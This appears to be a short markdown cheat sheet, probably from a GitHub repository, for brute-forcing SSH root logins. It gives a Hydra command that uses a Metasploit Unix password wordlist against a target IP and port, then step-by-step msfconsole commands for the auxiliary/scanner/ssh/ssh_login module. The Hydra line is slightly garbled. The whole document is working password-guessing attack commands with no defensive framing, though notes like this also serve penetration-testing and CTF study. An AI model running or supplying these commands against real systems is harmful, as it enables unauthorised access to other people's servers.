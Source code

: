 ## Hydra
> `hydra -l root -P /usr/share/wordlist/metasploit/unix_passwords.txt ssh>//<IP address>:<port number> -t 4 V`

## Msf
> `msfconsole`
> `search ssh` to find a login scanner
> `use auxiliary/scanner/ssh/ssh_login`
> 
> `options` to see the scanner's options
> `set username root`
> `set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt`
> `set rhosts <IP address>`
> optionally:
> `set verbose true`
> `set threads <number of threads to use>`
>
> to finally run it:
> `run`